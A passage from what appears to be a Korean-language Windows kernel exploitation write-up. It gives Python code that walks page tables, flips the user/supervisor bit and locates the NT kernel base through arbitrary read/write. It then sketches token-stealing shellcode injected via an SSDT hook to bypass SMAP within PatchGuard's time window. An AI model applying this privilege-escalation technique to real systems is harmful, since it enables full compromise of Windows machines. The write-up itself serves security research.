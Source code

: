 ```python
    entry = u64(loader_ppe_table[i*8:i*8+8])
    if entry & 0x1:
        print(f"PPE Entry PFN {i} ({hex(0xFFFF000000000000 | (496 << 39) | (i << 30))}): {hex(get_pfn(entry))}")
        unknown_ppes.append(i)

print(f"Unknown PPE entries: {unknown_ppes}")

for idx in unknown_ppes:
    pde_addr = get_pd_table_entry(0xFFFF000000000000 | (496 << 39) | (idx << 30))
    ppe_entry_addr = get_pp_table_entry(0xFFFF000000000000 | (496 << 39) | (idx << 30))
    toggle_us(ppe_entry_addr)
    pde_table = read_memory(pde_addr, 0x1000)
    
    for i in range(512):
        entry = u64(pde_table[i*8:i*8+8])
        if entry & 0x1:
            #print(f"PDE Entry PFN {i}, PPE-IDX {idx} ({hex(0xFFFF000000000000 | (496 << 39) | (idx << 30) | (i << 21))}): {hex(get_pfn(entry))}")
            if get_pfn(entry) == 0x100400: # Check if the PFN is the NT base
                nt_base = 0xFFFF000000000000 | (496 << 39) | (idx << 30) | (i << 21)
                break

    if nt_base:
        break

    toggle_us(ppe_entry_addr)

toggle_us(loader_pxe_entry_addr)

toggle_us(selfpte_pte) # Toggle back U/S.
```

### 이후…

이후의 과정은 이론적으로 쉽습니다. AAR, AAW, NT 커널 베이스가 모두 있으니 말이죠.

SMAP 때문에 `PsInitialSystemProcess` 의 Token을 빼오기 위해 NT 커널 PTE의 `U/S` 를 변경하는 것은 매우 위험합니다. 따라서, NT 커널 데이터에 대한 AAR이 불가합니다. 때문에 다른 접근법이 필요합니다.

- 적당한 함수를 찾아 함수에 대해 `W` 비트를 키고, 후킹을 진행한다. 이때 ‘적당한 함수’는 SSDT에 들어있는 함수 중 정말 잘 안 쓰이는 함수이면 된다.
- 패치는 일반적으로 `PsInitialSystemProcess` 에 대한 `Token` 을 현재 프로세스로 옮기는 쉘코드를 작성하면 된다. 함수가 쉘코드를 담기에 충분히 길지 않을 경우엔 후킹을 진행한다.
- 후킹을 할 경우에는, 유저 모드 버퍼를 할당한 뒤 그곳에 원하는 쉘코드를 적고 `U/S` 비트를 0으로 바꾸어서 SMAP가 작동하지 않게 만든다.
    - 웬만한 경우에서 후킹을 하는 것이 낫다. 시간이 적게 걸려 Race Condition의 가능성을 줄여 준다.
- 해당 함수를 트리거하여 원하는 코드를 커널 모드에서 실행한다.

여러 방법을 고안해 보았지만 해당 방법이 최선이였습니다. 다른 기발한 방법이 있다면 제보해 주시기 바랍니다. 정말 감사히 여기겠습니다.

이 방법은 PatchGuard를 트리거합니다. 따라서, 2분 내에 모든 작업을 수행하고 원상 복구 시켜놓아야 합니다.

원래라면 쉘까지 모두 유저 모드에서 획득하려고 했지만… 원인을 알 수 없는 블루스크린이 너무 많이 등장하고, 이 원인 불명의 오류를 해결하기 너무 힘든 관계로 추후 과제로 남겨두었습니다. 아마 제가 Python을 익스플로잇 도구로 사용한 것이 매우 큰 실책인 것 같습니다. 양해해 주시기 바랍니다.
